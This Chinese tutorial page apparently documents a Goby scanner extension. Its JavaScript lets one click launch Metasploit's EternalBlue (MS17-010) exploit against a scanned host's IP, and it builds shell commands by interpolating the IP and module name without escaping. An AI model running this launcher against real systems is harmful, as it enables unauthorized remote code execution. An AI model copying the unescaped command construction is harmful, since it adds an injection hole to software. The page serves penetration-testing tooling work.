 ### 下载链接
[MSF Sploit](http://gobies.org/MSFSploit.zip)

### 使用的**goby API**

 - goby.registerCommand
 - goby.getConfiguration
 - goby.setConfiguration
 - goby.showInformationMessage
 - goby.showErrorMessage

### 示例
第一步，你需要注册自定义组件要触发的命令。与之前的几个例子不同的是，这里使用了控制组件是否显示的回调命令，它绑定在views的visible字段上，根据其返回的布尔值来决定是否显示该组件。

        
     

``` javascript
     let cp = require('child_process');
          const os = require('os');
          const fs = require('fs');

          function activate (content) {
              // msf 对应关系
              let identical = {
                  "Eternalblue/DOUBLEPULSAR MS17-010 SMB RCE": "exploit/windows/smb/ms17_010_eternalblue"
              };

              // 点击触发的命令
              goby.registerCommand('msf', function (content) {
                  let config = goby.getConfiguration();
                  console.log(config)
                  let ip = content.hostinfo.split(':')[0];
                  let arr = ['C:/metasploit-framework/bin/msfconsole.bat', 'D:/metasploit-framework/bin/msfconsole.bat', 'C:/metasploit-framework/msfconsole'];

                  let urlDefault = '';
                  if (config.url.default) {
                      urlDefault = config.url.default
                  } else {
                      let isExistence = arr.filter(v => {
                          return fs.existsSync(v)
                      })
                      urlDefault = isExistence[0];
                      goby.setConfiguration("url", urlDefault)
                  }

                  if (!urlDefault) return goby.showInformationMessage('Please set the plug-in installation path');

                  let url = `${urlDefault} -x "use ${identical[content.name]}; set rhosts ${ip} ; run"`
                  if (os.type() == 'Windows_NT') {
                      //windows
                      cp.exec(`start ${url}`)
                  } else if (os.type() == 'Darwin') {
                      //mac
                      cp.exec(`osascript -e 'tell application "Terminal" to do script "${url}"'`)
                  } else if (os.type() == 'Linux') {
                      //Linux
                      cp.exec(`bash -c "${url}"`)
                  }
              });

```